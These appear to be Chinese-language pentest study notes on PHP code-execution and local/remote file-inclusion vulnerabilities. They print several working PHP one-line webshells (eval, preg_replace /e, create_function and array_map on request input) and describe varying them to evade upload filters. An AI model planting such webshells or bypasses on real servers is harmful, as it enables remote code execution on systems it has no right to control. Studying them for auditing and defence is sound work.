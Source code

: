 # 代码执行漏洞

代码执行漏洞原理：

用户输入的数据被当作后端代码执行

`<?php @eval($_REQUEST[8])?>` 其实一句话木马的本质就是一个代码执行漏洞。用户输入的数据被当作代码进行执行。

RCE远程命令或者代码执行。现在因为RCE这个词滥用，RCE的范围比较广，只要渗透的最终情况可以实现执行命令或者是代码都属于RCE，例如代码执行、文件包含、反序列化、命令执行，甚至是写文件Getshell都可以输入RCE

eval可以一次性执行多行代码


所以衍生出了一句话木马

```PHP
<?php
echo preg_replace('/a/e',$_GET[8],'abc');
?>
```

而一句话木马的出发精髓就被以PHP代码来解析，所以只要能让电脑认为他是PHP文件就可以成功触发。所以可以衍生出很多种PHP写法来绕过后端的PHP检测

例如：

```php
<?php
echo preg_replace('/a/e',$_GET[8],'abc');
```

这样的PHP代码少了<>。可以防止检测<>符号的后端检测到从而达到文件上传的目的。

正则表达式：

/a/i -> a是正则标识 i是修饰符(不区分大小写)

/a/e -> a是正则表达式，e是修饰符(要去替换的值可以用php的代码去执行)

一些一句话木马漏洞

多看看开发手则，说不定能找到开发不知道的漏洞


```PHP
<?php
$a = create_function('$id',$_REQUEST)
?>
```

> 使用：}phpinfo();/

```PHP
<?php
$a = [1, 2, 3, 4, 5];
$b = array_map($_REQUEST[1], $_REQUEST[2]);
?>
```

CMS安装的本质就是把原始的数据写入数据库

## 本地包含与远程包含

* 文件包含漏洞

攻击者利用包含的特性，加上应用本身对文件(包含)控制不严格，最终造成攻击者进行任意文件包含。（注：包含的文件会被当成脚本文件进行解析）。

一句话来说就是：文件包含并不属于漏洞，但是由于对包含进来的文件不可控，导致了文件包含漏洞的产生。

<br />

> 包含文件很有用，可以简化代码
文件包含包括本地包含和远程文件包含（需要allow_url_include = On）
本地文件包含LFI远程文件包含RFI

相同代码重复出现在不同文件中出现代码冗余，所以出现了文件包含函数。就是为了让代码更加高效，需要用到的部分代码会去调用，且被包含的文件会被当作php代码执行，忽略后缀本身。

* 文件包含的函数

> `include`PHP运行到include然后去调用被包含的文件执行，如果包含文件不存在、报错也会继续向下执行。

<br />

> `require`PHP在运行之前，就先去把被包含的文件的内容进行提取出来然后整合成一个新的PHP一起执行。如果包含的文件不存在，报错，就不会往下执行了

在代码审计一个代码的时候，可以使用代码审计软件进行快速审计关键词

当然在时间充足的情况下通读全文是最好的选择。

